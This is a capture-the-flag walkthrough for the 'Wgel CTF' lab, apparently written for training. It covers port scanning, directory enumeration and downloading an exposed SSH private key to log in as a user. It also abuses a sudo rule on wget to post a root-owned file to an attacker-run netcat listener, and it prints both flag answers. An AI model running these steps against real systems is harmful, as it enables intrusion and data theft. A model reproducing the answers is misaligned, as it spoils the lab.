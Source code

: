 # Task 1: Wgel CTF
![[1 87.png]]
## Question
> User flag
- Let's scan the target using `nmap`.
```
$ nmap -sC -sV 10.10.137.42
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-07 10:58 IST
Nmap scan report for 10.10.137.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.74 seconds
```
- As we can see there are two open ports:
	- Port 22: ssh
	- Port 80: http
- Let's check the `/index.html` page.
![[2 87.png]]
- We can view the page source using `CTRL+U`.
![[3 66.png]]
- Let's scan all the directories using `gobuster`.
```
$ gobuster dir -u http://10.10.137.42 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 277]
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.137.42/sitemap/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
- We can visit the `/sitemap` page using our browser.
- The webpage made my browser crash as soon as I visited it.
- We can search one layer deeper.
```
$ gobuster dir -u http://10.10.137.42/sitemap -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42/sitemap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.137.42/sitemap/.ssh/]
/css                  (Status: 301) [Size: 318] [--> http://10.10.137.42/sitemap/css/]
/fonts                (Status: 301) [Size: 320] [--> http://10.10.137.42/sitemap/fonts/]
/images               (Status: 301) [Size: 321] [--> http://10.10.137.42/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 317] [--> http://10.10.137.42/sitemap/js/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
- We can now visit `/sitemap/.ssh` using our browser.
![[4 52.png]]
- Let's download the `id_rsa` file using `wget`.
```
$ wget http://10.10.137.42/sitemap/.ssh/id_rsa
--2023-12-07 11:47:42--  http://10.10.137.42/sitemap/.ssh/id_rsa
Connecting to 10.10.137.42:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K)
Saving to: ‘id_rsa’

id_rsa                                                     100%[========================================================================================================================================>]   1.64K  --.-KB/s    in 0.1s    

2023-12-07 11:47:43 (13.6 KB/s) - ‘id_rsa’ saved [1675/1675]
```
- Let's change the permissions on the `id_rsa` file.
```
$ sudo chmod 700 id_rsa
```
- Now we can login as `jessie`.
```
$ ssh -i id_rsa jessie@10.10.137.42
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
- Let's read the user flag.
```
jessie@CorpOne:~$ cat /home/jessie/Documents/user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
```
## Answer
```
057c67131c3d5e42dd5cd3075b198ff6
```

## Question
> Root flag
- Let's check the permissions `jessie` has.
```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
- So we can post a file to our machine as `jessie` without using a password.
- Let's find the file the we need to post.
- Let's start a listener using `nc`.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```
- Let's send the file now.
```
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.48.138:9999
--2023-12-07 08:58:16--  http://10.17.48.138:9999/
Connecting to 10.17.48.138:9999... connected.
HTTP request sent, awaiting response... 
```
- We can go back to check the listener.
```
$ nc -nlvp 9999       
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.137.42] 57776
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.17.48.138:9999
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```
## Answer
```
b1b968b37519ad1daa6408188649263d
```